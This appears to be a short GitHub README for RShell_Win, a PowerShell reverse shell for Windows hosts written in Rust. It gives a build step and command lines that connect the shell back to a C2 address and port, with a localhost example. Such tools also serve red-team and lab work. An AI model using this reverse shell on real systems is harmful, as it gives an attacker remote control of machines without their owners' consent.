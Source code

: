 # RShell_Win

#### Simple (powershell) reverse shell for Windows hosts, written entirely in Rust's standard library.

### Build

- Execute `build.bat` to compile the project

### Syntax

```
target\release\rshell_win.exe <c2_address> <c2_port>
```

- Connect to local server port 5003

```
target\release\rshell_win.exe localhost 5003
```